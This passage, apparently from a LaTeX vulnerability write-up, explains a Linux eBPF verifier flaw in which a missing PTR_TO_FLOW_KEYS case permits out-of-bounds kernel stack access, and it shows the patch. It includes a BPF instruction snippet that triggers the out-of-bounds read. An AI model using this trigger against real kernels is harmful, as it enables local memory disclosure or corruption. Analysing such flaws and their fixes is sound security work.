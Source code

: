 \subsection{Exploiting the Missing Switch Case}

The bypass directly yields an \textbf{Out-Of-Bounds (OOB) Stack Access}:
\begin{enumerate}
    \item At runtime, the flow dissector hook allocates the \texttt{struct bpf\_flow\_keys} structure dynamically on the kernel stack during \texttt{bpf\_flow\_dissect()}.
    \item Because the verifier allowed variable offset arithmetic, the pointer can arbitrarily shift forward.
    \item Reading or writing to the offset pointer results in arbitrary Read/Write of the caller kernel stack memory beyond the original \texttt{flow\_keys} fields.
\end{enumerate}

\textbf{Trigger Conditions:}
The bypassed check enables corrupting the flow keys pointer locally:
\begin{lstlisting}[style=kernel]
// R6 = ctx
BPF_LDX_MEM(BPF_DW, BPF_REG_7, BPF_REG_6, 144), // R7 = flow_keys

// Create a variable offset [0, 512]
BPF_MOV64_IMM(BPF_REG_8, 512),
BPF_ALU64_IMM(BPF_DIV, BPF_REG_8, 1), // Div disables verifier const tracking
BPF_ALU64_IMM(BPF_AND, BPF_REG_8, 512), // Bound maximum range

// Variable addition on PTR_TO_FLOW_KEYS
BPF_ALU64_REG(BPF_ADD, BPF_REG_7, BPF_REG_8), // OVERFLOW happens here!

// R0 = *(u64*)(R7) --> Reads the caller's kernel stack structure
BPF_LDX_MEM(BPF_DW, BPF_REG_0, BPF_REG_7, 0),
\end{lstlisting}

\subsection{Patch Details}

The formal resolution trivially incorporates the missing verification restriction block inside \texttt{adjust\_\allowbreak ptr\_\allowbreak min\_\allowbreak max\_\allowbreak vals()}:
\begin{lstlisting}[style=kernel]
	case PTR_TO_FLOW_KEYS:
		if (known)
			break;
		fallthrough;
\end{lstlisting}
The patch mandates absolute bounds resolution, enforcing \texttt{fallthrough} rules yielding safety-stop rejections to any variable-offset patterns against \texttt{flow\_keys}.

